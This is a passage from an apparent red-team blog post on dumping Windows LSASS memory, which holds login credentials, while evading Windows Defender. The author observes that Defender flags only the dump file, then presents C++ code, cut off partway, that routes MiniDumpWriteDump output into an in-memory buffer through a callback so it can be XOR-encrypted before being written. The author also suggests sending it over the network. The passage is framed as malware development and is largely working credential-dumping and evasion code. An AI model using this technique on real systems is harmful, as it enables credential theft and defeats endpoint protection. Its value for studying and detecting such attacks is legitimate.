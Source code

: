 To my surprise, Windows Defender (patience my friend, we’ll get to a more advanced EDR in a minute) did not alert on the executable when I copied it to a non-excluded folder. 
Furthermore, when executing it I got an alert on the dump file itself but not the executable – it was left untouched on disk and Windows Defender just deleted the dump file (not the lsass dumper executable).

<img class="fill" src="https://raw.githubusercontent.com/Dec0ne/research/master/img/undetected-lsass-dump-workflow/wd_1.jpg">

Thinking critically when doing malware development is paramount and in this case the solution seems very simple and obvious – Windows Defender only recognizes the LSASS.DMP dump file as a dump of lsass and alerts on it, even though it’s not really sure what happened or else it would also delete the LsassDumper.exe that performed the dump or at least alert on the lsass dump process being performed. 

So, what if we don’t write the dump file to disk altogether and instead send it over the network or, write it to disk only after encrypting it in memory?
With *MiniDumpWriteDump* API function you can specify a pointer to a *MINIDUMP_CALLBACK_INFORMATION* structure which points to callback function that will handle the data generated by the dump operation instead of just specifying a handle to a file on disk which the dump data will be written to. 
This will let us hold the dump data in memory instead of writing it directly to disk. 
We can use this to encrypt the dump data before writing it to the disk ourselves using a simple xor routine.

```cpp
#define _CRT_SECURE_NO_WARNINGS
#include <Windows.h>
#include <stdio.h>
#include <TlHelp32.h>
#include <DbgHelp.h>
#pragma comment(lib, "Dbghelp.lib")

// Global variables the will hold the dump data and its size
LPVOID dumpBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 * 1024 * 200); // Allocate 200MB buffer on the heap
DWORD dumpSize = 0;

// Callback routine that we be called by the MiniDumpWriteDump function
BOOL CALLBACK DumpCallbackRoutine(PVOID CallbackParam, const PMINIDUMP_CALLBACK_INPUT CallbackInput, PMINIDUMP_CALLBACK_OUTPUT CallbackOutput) {
	LPVOID destination = 0;
	LPVOID source = 0;
	DWORD bufferSize = 0;
	switch (CallbackInput->CallbackType) {
	case IoStartCallback:
		CallbackOutput->Status = S_FALSE;
		printf("[+] Starting dump to memory buffer\n");
		break;
	case IoWriteAllCallback:
		// Buffer holding the current chunk of dump data
		source = CallbackInput->Io.Buffer;
		
		// Calculate the memory address we need to copy the chunk of dump data to based on the current dump data offset
		destination = (LPVOID)((DWORD_PTR)dumpBuffer + (DWORD_PTR)CallbackInput->Io.Offset);
		
		// Size of the current chunk of dump data
		bufferSize = CallbackInput->Io.BufferBytes;

		// Copy the chunk data to the appropriate memory address of our allocated buffer
		RtlCopyMemory(destination, source, bufferSize);
		dumpSize += bufferSize; // Incremeant the total size of the dump with the current chunk size
		
		//printf("[+] Copied %i bytes to memory buffer\n", bufferSize);
		
```